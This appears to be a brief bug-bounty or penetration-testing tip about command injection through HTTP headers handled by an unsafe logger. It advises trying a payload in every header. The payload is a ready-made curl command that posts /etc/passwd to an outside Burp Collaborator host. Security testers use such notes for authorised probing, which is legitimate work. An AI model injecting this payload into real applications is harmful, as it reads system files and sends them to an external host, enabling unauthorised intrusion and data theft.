 ### unsafe logger
If an unsafe logger is used, an attacker can inject code and execute arbitrary commands, 
even if the page being accessed is a 404 page. 
Always test HTTP request headers to make sure the application is handling the headers correctly.
Try it in every possible header
`";curl -X POST -d @/etc/passwd http://burp_collobrator.com/ #`

![Fk-Xm9zakAEItYU](https://user-images.githubusercontent.com/91581651/210128119-5a9745d7-c2ec-494f-9fdc-16f03b7125f5.png)
